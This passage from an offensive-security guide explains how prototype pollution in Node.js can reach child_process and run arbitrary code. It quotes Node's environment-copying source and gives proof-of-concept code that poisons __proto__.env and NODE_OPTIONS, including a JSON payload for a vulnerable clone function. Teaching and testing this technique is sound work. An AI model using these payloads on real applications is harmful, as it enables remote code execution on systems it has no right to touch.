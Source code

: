 ```javascript
//See code in https://github.com/nodejs/node/blob/02aa8c22c26220e16616a88370d111c0229efe5e/lib/child_process.js#L638-L686

var env = options.env || process.env;
var envPairs = [];
[...]
let envKeys = [];
// Prototype values are intentionally included.
for (const key in env) {
  ArrayPrototypePush(envKeys, key);
}
[...]
for (const key of envKeys) {
  const value = env[key];
  if (value !== undefined) {
    ArrayPrototypePush(envPairs, `${key}=${value}`); // <-- Pollution
  }
}
```

Check that code you can see it's possible en **poison `envPairs`** just by **polluting** the **attribute `.env`.**

### **Poisoning `__proto__`**

{% hint style="warning" %}
Note that due to how the **`normalizeSpawnArguments`** function from the **`child_process`** library of node works, when something is called in order to **set a new env variable** for the process you just need to **pollute anything**.\
For example, if you do `__proto__.avar="valuevar"` the process will be spawned with a var called `avar` with value `valuevar`.

However, in order for the **env variable to be the first one** you need to **pollute** the **`.env` attribute** and (only in some methods) that var will be the **first one** (allowing the attack).

That's why **`NODE_OPTIONS`** is **not inside `.env`** in the following attack.
{% endhint %}

{% code overflow="wrap" %}
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//"}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"

// Trigger gadget
var proc = fork('./a_file.js');
// This should create the file /tmp/pp2rec


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce\\\").toString())//"}}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec
```
{% endcode %}

